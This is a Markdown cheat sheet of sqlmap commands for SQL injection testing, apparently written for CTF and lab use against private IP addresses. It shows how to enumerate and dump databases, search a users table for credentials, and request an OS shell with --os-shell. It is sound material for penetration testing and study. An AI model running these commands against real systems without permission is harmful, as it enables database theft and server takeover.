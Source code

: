 # SQLMap

Reference:

* https://github.com/sqlmapproject/sqlmap/wiki/Usage


## GET url param:

```bash
sqlmap -u http://192.168.217.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```

## POST body:

```bash
sqlmap -u http://10.10.10.10/login.php --method POST --data "username=blah&password=blah&submitButton=Log+In" -p "password"
```

## Captured request (usually POST/PUT):

Save a burp request to a file named `request.txt`:

```bash
sqlmap -r request.txt -p someparam
```

If there is a `Host:` header, then sqlmap will figure out the target on its own. 

Parameters including cookies should also be detected (probably), but don't rely on this to work.

### Example credentials search workflow:

Get database names:

```bash
sqlmap -r request.txt --dbs
```

Get tables of a database:

```bash
sqlmap -r request.txt -D admin --tables
```

Dump content of a table:

```bash
sqlmap -r request.txt -D "admin" -T users --dump
```


## Common Params
### Parameters you want to test specfically

```bash
-p "param,param2"
```

### Discover databases:
```bash
--dbs
```

### Discover Tables:
```bash
-D "database_name"
--tables
```

### Table content:
```bash
-T <table_name>
--dump
```

### Attempt to gain Shell:
```bash
--os-shell
```

### Specify known database type:
```bash
--dbms=mysql
```

### Risk and level
```bash
--level <int>
--risk <int>
```

level max is 5, 

* level 1 default
* level 2 adds HTTP Cookie header testing
* level 3 adds HTTP User-Agent/Referer headers testing
* level 4 ????
* level 5 adds Host header testing

risk max is 3

* risk 1 default
* risk 2 adds heavy query time-based SQL injections
* risk 3 adds OR-based SQL injection tests (might damage database content)


### Get rid of cached session data

Sqlmap tends to cache a lot of data, this might be annoying if there was a false positive or if you changed your captured request file. Do this to get rid of it:

```bash
--flush-session
--fresh-queries
```

### (Burp) Proxy
```bash
-proxy http://localhost:8080
```

### Technique

* Stacked queries (S)
* Union query based (U)
* Error based (E) 
* Inline queries (I)
* Boolean blind (B)
* Time based blind (T)

Specify single technique or technique order

```bash
--technique U
--technique=BEUSTQ
```

For union based attacks you can specify the number of unions cols to test if the default is too small:

```bash
--union-cols=11
--union-cols=1-20
```

### Cookie
```bash
--cookie "cookiename=cookiedata"
```

### Unicode Nonsense

CTFs sometimes do this in order to make it harder for you, they throw in some weird characters which are hard to work with on a utf-8 shell. One of the following parameters might help.

Convert output to hex during retrieval:
```bash
--hex
```

Redump entries having unknown character marker (?)
```bash
--repair
```

Character encoding for data retrieval
```bash
--encoding=
```

### Before and after injection point

If you consistently want to add some string data before/after the injected paylods. For example some brackets that need to be opened/closed to make the injection work.

```bash
--prefix "<str>"
--suffix "<str>"
```

For those who have not paid attention in school, prefix is before, suffix is after.


